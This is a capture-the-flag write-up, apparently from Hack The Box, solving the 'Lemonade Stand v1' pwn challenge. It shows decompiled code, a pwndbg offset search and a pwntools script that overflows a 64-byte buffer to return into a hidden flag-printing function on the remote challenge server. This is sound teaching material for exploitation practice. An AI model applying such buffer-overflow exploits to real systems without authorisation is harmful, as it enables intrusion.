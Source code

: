 # Lemonade Stand v1 

This challenge is an basic ret2win attack.

## Basic file checks

We see that the RELRO is full enabled so can't write anything in the GOT table to perform a "GOT overwrite" attack. \
The NX is also enabled, so that means we can't stored input or data cannot be executed as code to perform a shellcode attack.
![Alt Text](img/checksec.png)

## View the Source Code and find the vulnerability

We used Ghidra to disassemble the binary.\
The first thing that we want to do is to go to Functions section and select the main() to see\
what the binary is actually doing and what funtions are called.
```c
void main(void)

{
  long lVar1;
  
  setup();
  puts("\x1b[1;33m");
  cls();
  do {
    while( true ) {
      while (lVar1 = menu(), lVar1 == 1) {
        buy_normal();
      }
      if (lVar1 == 2) break;
      error("We don\'t sell grapes!");
    }
    buy_large();
  } while( true );
}
```


We saw that the main is calling two funcrions buy_normal()" and buy_large().\
We navigate to them and we saw that both of them they calling a save_creds() func.
```c
void buy_large(void)

{
  if (COINS < 6) {
    error("You don\'t have enough coins!");
    save_creds();
  }
  else {
    printf("\n%s[+] Enjoy your large lemonade!\n%s",&DAT_0040101e,&DAT_00400c88);
    COINS = COINS - 5;
  }
  return;
}
```

This is where the interesting thing starts. \
We see that we have a buffer overflow in the local_48 variable cause the size of it is 64 bytes and read can take 74 bytes

```assembly 
        00400ac7 48 8d 45 c0     LEA        RAX=>local_48,[RBP + -0x40]
```

```c

void save_creds(void)

{
  long lVar1;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  puts(
      "\n\nI can give you a free lemonade but I need your information for next time so you can pay m e back!\n"
      );
  printf("1. Yes\n2. No thanks\n\n>> ");
  lVar1 = read_num();
  if (lVar1 == 1) {
    printf("\nPlease tell me your name: ");
    read(0,&local_28,30);
    printf("\nPlease tell me your surname: ");
    read(0,&local_48,74);
    puts("Thanks a lot! Here is your lemonade!\n");
  }
  return;
}
```
We also found a function that is never been called and it will print the flag if somehow we achieve it (grapes()).
That's our goal.

```c

void grapes(void)

{
  ssize_t sVar1;
  char local_d;
  int local_c;
  
  local_c = open("./flag.txt",0);
  if (local_c < 0) {
    perror("\nError opening flag.txt, please contact an Administrator.\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    sVar1 = read(local_c,&local_d,1);
    if (sVar1 < 1) break;
    fputc((int)local_d,stdout);
  }
  close(local_c);
  return;
}
```

## Exploit

First we want to find the offset.\
We will use pwndbg for this, to create a pattern known as De Bruijn Sequences to fill the padding for the buffer.
The pwntools calculate the entire 8 digits and found the offset to be 64, but we only care for the first 4 bytes so it will be 64 + 4 * 2 = 72 bytes

```shell
>> 1                                                                                         
                                                                                             
Please tell me your name: leo                                                                
                                                                                             
Please tell me your surname: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa                                                         
Thanks a lot! Here is your lemonade!                                                         
                                                                                             
                                                                                             
Program received signal SIGSEGV, Segmentation fault.                                         
0x000000000040616a in ?? ()                                                                  
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────
*RAX  0x26
 RBX  0x0
*RCX  0x7ffff7910104 (write+20) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x7ffff7bed8c0 ◂— 0x0
*RDI  0x1
*RSI  0x7ffff7bec7e3 (_IO_2_1_stdout_+131) ◂— 0xbed8c0000000000a /* '\n' */
*R8   0x25
*R9   0x7ffff796eb90 ◂— mov r10, qword ptr [rsi - 0x1e]
*R10  0x20657361656c500a ('\nPlease ')
*R11  0x246
*R12  0x400780 (_start) ◂— xor ebp, ebp
*R13  0x7fffffffde50 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x6161616161616169 ('iaaaaaaa')
*RSP  0x7fffffffdd60 —▸ 0x7fffffffdd70 —▸ 0x400c00 (__libc_csu_init) ◂— push r15
*RIP  0x40616a
────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────
Invalid address 0x40616a
──────────────────────────────────────────[ STACK ]──────────────────────────────────────────
00:0000│ rsp 0x7fffffffdd60 —▸ 0x7fffffffdd70 —▸ 0x400c00 (__libc_csu_init) ◂— push r15
01:0008│     0x7fffffffdd68 —▸ 0x400bee (main+72) ◂— jmp 0x400bfd
02:0010│     0x7fffffffdd70 —▸ 0x400c00 (__libc_csu_init) ◂— push r15
03:0018│     0x7fffffffdd78 —▸ 0x7ffff7821c87 (__libc_start_main+231) ◂— mov edi, eax
04:0020│     0x7fffffffdd80 ◂— 0x2000000000
05:0028│     0x7fffffffdd88 —▸ 0x7fffffffde58 —▸ 0x7fffffffe1c0 ◂— '/home/vein/htb/hacktheboo_practise/pwn_lemonade_stand_v1/lemonade_stand_v1'
06:0030│     0x7fffffffdd90 ◂— 0x100000000
07:0038│     0x7fffffffdd98 —▸ 0x400ba6 (main) ◂— push rbp
────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────
 ► 0         0x40616a
   1   0x7fffffffdd70
   2         0x400bee main+72
─────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> aaaaaakaaaaaaalaaaaaaamaaa
Undefined command: "aaaaaakaaaaaaalaaaaaaamaaa".  Try "help".
pwndbg> cyclic -l iaaaaaaa
Finding cyclic pattern of 8 bytes: b'iaaaaaaa' (hex: 0x6961616161616161)
Found at offset 64
```

Then we wrote a simple python script with pwntools to return to grapes

```python
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./lemonade_stand_v1', checksec = False)
# p = process(elf.path)
p = remote('94.237.48.248', 39040)
# context.log_level = 'debug'

padding = 72 * b'a' 
# pop_rdi = 0x400c63

payload = flat(
          padding,
          elf.symbols.grapes
              )

p.sendlineafter(b'>> ', b'2')
p.sendlineafter(b'>> ', b'2')
p.sendlineafter(b'>> ', b'2')
p.sendlineafter(b'>> ', b'1')
p.recvuntil(':')
p.sendline('leo')
p.recvuntil(':')
p.send(payload)
success(p.recvall())
```

And we successfully did it!

![Alt Text](img/flag.png)
